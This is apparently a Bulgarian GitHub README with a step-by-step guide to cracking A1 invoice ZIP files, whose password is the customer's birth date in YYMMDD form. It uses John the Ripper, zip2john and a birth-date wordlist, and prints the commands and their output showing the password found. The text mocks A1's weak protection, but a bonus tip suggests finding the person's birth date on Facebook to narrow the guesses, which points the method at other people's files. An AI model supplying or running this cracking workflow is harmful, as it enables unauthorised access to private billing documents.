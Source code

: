 __Как да преодолеете "С оглед сигурност на достъпа до Вашите данни, файлът е защитен с парола, която е рождената Ви дата във формат ГГММДД – последните две цифри от годината на раждане, месец и ден.", измислена от А1 в няколко стъпки.__

Какво ще ви е необходимо:
1) [JohnTheRipper Password cracker](https://www.openwall.com/john/) - За Windows в момента това е версия 1.9.0. Уверете се, че изтеглената версия е Jumbo, трябва ви конвертора zip2john от него (намира се в run/)
    
2) [Файл](https://github.com/nikip72/a1-bg-invoice-bruteforce/raw/main/pass.zip) с генерирани всички възможни пароли, формата е ГГММДД, което означава [00-99][01-12][01-31]. Това прави 37200 комбинации. Да, не всички месеци имат 31 дни, но комбинациите са толкова малко, че това няма никакво значение. Файлът може да бъде генериран по много начини, или да бъде изтеглен от тук, или изтеглен от тук.
    
3) "Защитеният" с парола файл
    
__Стъпка по стъпка указания - в случая използваната ОС е Linux, файла с генерираните пароли се нарича pass.txt, а "защитеният файл" - 0433966193.zip.__
1) Генерирайте хеш за използване от JohnTheRipper с помощта на zip2john
    ```
    $ zip2john ./0433966193.zip > hash
    ver 2.0 0433966193.zip/0433966193.pdf PKZIP Encr: cmplen=652801, decmplen=654165, crc=4B1608B9
    $ ls -la hash
    -rw-r--r-- 1 root root 1305751 Jul 28 06:23 hash
    ```
2) Старирайте JohnTheRipper
     ```
     $ john --wordlist=./pass.txt ./hash
     Using default input encoding: UTF-8
     Loaded 1 password hash (PKZIP [32/64])
     Will run 2 OpenMP threads
     Press 'q' or Ctrl-C to abort, almost any other key for status
     901212           (0433966193.zip/0433966193.pdf)
     1g 0:00:00:00 DONE (2021-07-28 06:25) 12.50g/s 358400p/s 358400c/s 358400C/s 670125..780128
     Use the "--show" option to display all of the cracked passwords reliably
     Session completed
     ```
 Както виждате, почти моментално паролата е намерена - __901212__
3) Разархивирайте супер защитения файл
     ```
     $ unzip 0433966193.zip
     Archive:  0433966193.zip
     [0433966193.zip] 0433966193.pdf password: 
       inflating: 0433966193.pdf
     $ ls -la 0433966193.pdf
     -rw-r--r-- 1 root root 654165 Jul 26 05:49 0433966193.pdf
    ```
4) Бонус 1:
 - ако искате да ускорите процеса, не че има накъде, проверете датата на раждане на човека във FB. Евентуално ще трябва да познаете годината само, което свежда комбинациите до 100
5) Бонус 2:
 - може да се използва и програмата fcrackzip, която в режим на генериране на пароли само от цифри се справи за 1 мин.
6) Бонус 3:
 - позабавлявайте се с оплакване в А1 за да се наслушате как всичко това се прави за вашата сигурност
